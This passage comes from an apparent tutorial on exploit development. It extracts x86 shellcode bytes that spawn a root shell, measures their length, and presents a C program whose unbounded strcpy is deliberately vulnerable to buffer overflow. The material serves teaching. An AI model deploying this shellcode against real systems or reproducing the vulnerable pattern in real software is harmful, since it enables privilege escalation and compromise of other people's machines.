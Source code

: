 We can check now it if work and give us new shell on our terminal:
![shell01.png](/assets/images/shell01.png)
**Figure 4** New shell on our terminal.

Now, we want to convert that binary to hex value so we can use it on   the buffer overflow example here. We going to use the command objcopy to extract the binary content of the *.text* section from the input file "shellcode" and saves it into a new file named "shellcode.bin". This is often done to extract the raw machine code (binary) from an executable or object file, which can be useful for various purposes such as embedding in other programs or systems.
```
bjcopy -O binary -j .text shellcode shellcode.bin
```

Now with the next command we going to convert the binary content of "shellcode.bin" into a format commonly used in shellcode or other contexts where raw hexadecimal representation is needed. The output will be a series of `\x` prefixed hexadecimal values representing each byte in the binary file.
```
xxd -p -c 1 shellcode.bin | awk '{printf("\\x%s", $1)}'\n
```

the output of that should be our hex shell code values that we need to our buffer overflow example:
```
\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80
```

Also we need to know the length of our shellcode so we can use it for our calculation:

{% highlight bash %}
#!/bin/bash

shellcode="\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"

# Remove the escape characters and calculate the length
length=$(echo -n -e $shellcode | wc -c)

echo "Length of shellcode: $length bytes"
{% endhighlight %}

The output for that one is:`Length of shellcode: 28 bytes`.

So now we can start on our first example, let's look on our first code, the following code is the vulnerable for buffer overflow since the buffer size have no boundaries.

{% highlight c %}
#include <stdio.h>
#include <string.h>

int main(int argc, char** argv) {
    // Declare a character array 'buffer' with a size of 500 bytes
    char buffer[500];

    // Copy the string from the command line argument argv[1] into the 'buffer'
    strcpy(buffer, argv[1]);

    // Return 0, indicating successful execution
    return 0;
}
{% endhighlight %}
